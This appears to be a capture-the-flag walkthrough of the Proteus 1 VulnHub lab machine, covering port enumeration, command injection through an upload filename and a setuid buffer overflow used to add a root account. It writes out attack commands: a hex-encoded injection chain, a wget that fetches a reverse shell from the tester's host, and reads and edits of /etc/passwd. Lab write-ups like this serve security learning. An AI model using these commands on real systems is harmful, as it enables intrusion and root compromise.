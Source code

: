 # Proteus 1 Vulnhub Walkthrough

## Intro

Below you will find a walkthrough of the Proteus 1 VM. This was a fun and challenging machine. This page is full of fun spoilers, so if you're 
still attemping to root the machine, try harder :). Without further ado, let's dive in. 

## Download and Find It

Download the Proteus VM from [VulnHub](https://www.vulnhub.com/entry/proteus-1,193/), load it up, and pick your favorite tool. For quick identification, I use nmap.  

`nmap 192.168.2.0/24 -sP Starting Nmap 7.70 ( https://nmap.org )  `  
`Nmap scan report for Proteus (192.168.2.180)Host is up (0.23s latency).`

## Start Enumeration

I use a series of scripts to gather most of the information for me. Reconscan by Mike Czumak does an nmap script and starts work on additional modules depending on what ports are determined to be open. There are three main ports open: 22, 80, and 5355

> PORT     STATE SERVICE REASON         VERSION  
> 22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)  
> | ssh-hostkey:   
> |   2048 40:3e:c5:6f:dc:63:c5:af:43:51:28:5c:05:f5:98:c2 (RSA)  
> | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwD5BkuUf9zDQ1+TkrK0K9VffoH9cCm9OPa215nFtfOejQkf7k3ppxkKqZxlbsOZje5pp9y5gv4EMeAatn1BL2KbMlT96UW0tcFyC8uRJdFITpd1LnzusucVvpP5qa29gyNVJrx/scsdE9bIwB++toL4kSbX40kbUA4u+26qqKXyPaaO7SMo0VxM+7E4l5ZXIV9kfVo6SYcCTHo/WG48iSrbe1UGQg3VR0xxtU9OZg/oiS7BHvqracFTn71Obp+KaN6KA8R3NKQcxA+FSlr1jOVmr3q1b6++RAij4jajwafC1iu0tcy9WkhTrXBLbtmPJ2WI4/8cKO4zhuW0Z2eieD  
> |   256 bb:9c:b0:3c:ff:48:8a:2b:37:d2:fe:2e:78:ce:8c:a9 (ECDSA)  
> | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFLxp5pS3QOLUV+Mfsyeak4GLeciDrUVshZbJEzKKGu/IPOxzNzkVna0IcfGCyRfzfJp1/R6I3k4CdKj6wD2Xo4=  
> |   256 ff:85:4e:91:29:da:d1:1b:b3:11:26:5b:d8:c0:7a:f8 (EdDSA)  
> |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDA1x1iCaJYag2vwfBSvDU1ffJ+WtKs4kWCJe/mLxBFm  
> 80/tcp   open  http    syn-ack ttl 64 Apache httpd  
> | http-methods:   
> |_  Supported Methods: GET HEAD  
> |_http-server-header: Apache  
> |_http-title: Proteus | v 1.0  
> 5355/tcp open  llmnr?  syn-ack ttl 1  

Nikto and Dirb scans are kicked off for port 80. Let's continue exploring the website.

## Proteus

Fire up Burp and head to the web page. 

![Proteus_home](/imgs/proteus_homepage.png)
<link href="{{ "blob/master/imgs/proteus_homepage.png" | https://github.com/jlreiter/Proteus1/blob/master/imgs/proteus_homepage.png }}" rel="stylesheet">

First notes are that there is a file upload, which is always fun to play with, and a login. 
Some quick auth bypass tries and sqlmap bear no fruit, so I focus on the main function and upload some files. If you upload something 
that doesn't fit the MIME type, Proteus gets mad at you and rejects. When you get a successful upload, Proteus brings you to 
the /samples page. 

![Proteus_successful_upload](https://github.com/jlreiter/Proteus1/blob/master/imgs/default_sucessful_upload.png)

Proteus changes our file name to a base64 encoded value, runs strings, and runs objdump on our file. That's nice of them. I can also 
see under objdump our file name (stored in /home/malwareadm/samples/). 

Looking at the POST in Burp, we have name="file"; and filename="file.bin" that we can mess with. 

![Burp_submit_request](https://github.com/jlreiter/Proteus1/blob/master/imgs/burp_submit_request.png)

I tried messing around wtih base64 encoded filenames first, but it's always better to keep it simple. Test for command injection in the 
filename parameter. filename="file.bin;id" works when you reload your webpage. 

![Id_cmd_inj_test](https://github.com/jlreiter/Proteus1/blob/master/imgs/id_cmd_inj_test.png)

## Messing With Command Injection

This part gave me quite a bit of trouble. The site takes the parameter of filename (currently set to file.bin;id), converts it to a 
random string (and keeps the extension if possible), and then runs base64 on it. It is useful that we know the name of our file as we 
can use it to access our own payloads on the server if  need be. 

I needed to generate a 'bad characters' list as some commands would not pass through. The website makes this pretty simple and fails 
obviously when testing. 

**Good chars**

![good_chars](https://github.com/jlreiter/Proteus1/blob/master/imgs/good_chars.png)

**Bad chars**

![bad_chars](https://github.com/jlreiter/Proteus1/blob/master/imgs/bad_chars.png)

Most of the commands that would give us further access require either '/' for files or a '.' for an ip address. I could open a port 
with nc, but I couldn't actually connect or interact with it afterwards. Looking back at the good character list, we have access to 
pipe. Essentially, if we can string together a set of commands, encoded or otherwise, we can create complex commands for execution.

After much trial and error I'm left with the following: `echo <hex encoded command> | xxd -r -p | xargs -i{} sh -c '{}'`

Taking hex encoded values, I can pass it to xxd (which also handles the encoding), and finally pass it to xargs which can handle the 
execution by bassing to sh. It was easy passing encoded values; however, they wouldn't execute (or if they did it was blind). 
I also ran into an issue that the server changes the filename parameter to all lower case. Initially I messed with xargs -I, 
but the server didn't like it. The xargs -i[replace] functionality is apparently deprecated (check man) in favor of -I, so I'm glad 
I had a version (4.7.0) that still had it. 

## Arbitrary Command Injection

It's easy to create hex encoded commands. I also created a quick script to help double check my work and possibly handle other use 
cases (though be wary of my shaky script abilites). Let's check again to see everything working. Here is the payload with 
'cat /etc/passwd'

![etc_passwd_cmd_injection](https://github.com/jlreiter/Proteus1/blob/master/imgs/etc_passwd_cmd_injection.png)

Now we can try to put a reverse shell in. The current account doesn't have write access to the web directory, so I needed to put it 
somewhere else. wget supports this with -O. `wget -O /tmp/simpleshell.py http://<IP ADDR>/simpleshell.py`
Encode it, send it, and double check the file was recieved. You can always look at your own apache access.log to see if the GET was 
successful, or you can 'ls' the /tmp directory. 

![already_exec_shell](https://github.com/jlreiter/Proteus1/blob/master/imgs/already_executable_shell.png)

So now all I have to do is throw up a listner and execute the shell.

![connect](https://github.com/jlreiter/Proteus1/blob/master/imgs/successful_rshell_connect.png)

## >_Terminal

Once inside you can explore around to your heart's content. There are some config files with credentials and a test admin login that 
can be used for the web page. There is even a RSA private key (password protected) (see some stuff in /imgs/interesting_snip\*). Keep 
exploring and you'll eventually find a quaint file: admin_login_logger. Check it's permissions and notice anything special? 
The sticky bit is set and the owner is root. I nc it over to my machine for further testing. 

admin_login_logger takes a parameter and writes it to a log file. 

![logger_test](https://github.com/jlreiter/Proteus1/blob/master/imgs/logger_test_input.png)

Nothing too special, but user input is a fickle thing. I generated a junk pattern and pass it into the logger to see interesting 
effects. 

![overflow](https://github.com/jlreiter/Proteus1/blob/master/imgs/logger_overflow.png)

An overflow occurs and I actually overwrite the file location and file name. Cool. So I have the ability to write to any file as 
root with a certain space for a payload. A few things to note about the overflow: 
 - it starts user input with a new line
 - the user input is appended to the end of the file
 - the user has limited space for the payload
 - the user has limited space in the file name for the path and file
 - the pattern offset is 456 based on the name of the file created when I hit the first overflow 
 
With these notes in mind, I can craft a payload. I fire up python interpreter for some quick work.  
`def pad(len):`  
`    pad="A"*len`  
`    return pad`  
  
`def gen():`  
`    payload=userInput + pad(patternCustomLen-len(userInput)) + fileToOverwrite`  
`    print payload`  

I initially thought I could overwrite the /etc/passwd file and remove the root account password, but this is when I found that 
the overflow just appends user input to the end. It also doesn't handle new lines very well either. Another easy thing to do is 
add an account to the machine. I crafted a user without a password and the machine still wouldn't let me su. 

Then, hashed a password (I used openssl passwd), created a user, su ... and fail because the overflow overwrote the : shell : 
section of /etc/passwd and the machine didn't know what to give me. 

![almost_final_payload](https://github.com/jlreiter/Proteus1/blob/master/imgs/almost_final_userInput_payload.png)

![failed_login](https://github.com/jlreiter/Proteus1/blob/master/imgs/failed_proteus_login_root.png)
 
Finally, here is the user input section of the final payload: `<username>:<password>:0:0::/tmp/`

![fina_payload](https://github.com/jlreiter/Proteus1/blob/master/imgs/final_userInput_payload.png)
 
Now to su <username>, type the password, and pop to a root shell.
 
![proteus_root](https://github.com/jlreiter/Proteus1/blob/master/imgs/successful_proteus_login_root.png)
 
Now you can find the flag and display it. 
 
![flag](https://github.com/jlreiter/Proteus1/blob/master/imgs/flag.png)
 
##  Final comments

Overall I had a lot of, albeit frustrating, fun. I needed the practice and learned some things along the way. 
The system gives a lot of leeway to the user because it executes commands in so many places and even grants them execute 
rights (see nice_proteus_exec_help\* in imgs). 
Crafting the original injection is probably the hardest part. Now onto the next one.
